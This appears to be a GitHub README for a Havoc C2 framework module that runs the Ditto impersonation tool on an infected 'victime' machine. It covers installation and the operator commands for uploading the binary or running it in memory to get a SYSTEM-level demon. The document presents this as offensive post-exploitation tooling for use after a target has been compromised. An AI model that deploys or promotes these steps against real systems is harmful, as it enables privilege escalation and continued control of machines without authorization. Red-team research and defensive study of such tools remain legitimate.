

# Havoc_impersonnate

Havoc impersonnate module integrate impersonnate directly in havoc.

The script take 3 binarie file. 2 files was copy paste of object file in NoConsoolation module. the last file is Ditto.exe, that impersonnate file. Thanks to @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) for his repo.

The module can upload ditto.exe (or other file) on victime or Launch executable directly in memory.

# Installation

1. Install python dependecie.
```
pip install argparse 
```

2. Clone the repo
```
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

After clone. Go on your Havoc client.

3. Click on script tab and open script manager window.


4. Click Load Script choose impersonnate.py and open it


One line appears in script manager tab.

The Script was load in havoc

# Using guide
## Prerequire

You need to infect you'r target and you need privileged account before using this module.



After this Enjoy.

## Upload
### Etape 1

This command is use to set the local file to upload in your target.

The upload take id of your session.


``` Havoc
Ditto-upload SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```


Recupérer shell System :
```Havoc
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Executer commande personaliser pour Ditto :

``` Havoc
Ditto-upload Exec help
```

## In Memory
### Etape 1

``` Havoc
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

Recupérer shell System :
```Havoc
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Executer commande personaliser pour Ditto :

``` Havoc
Ditto-Memory Exec help
```
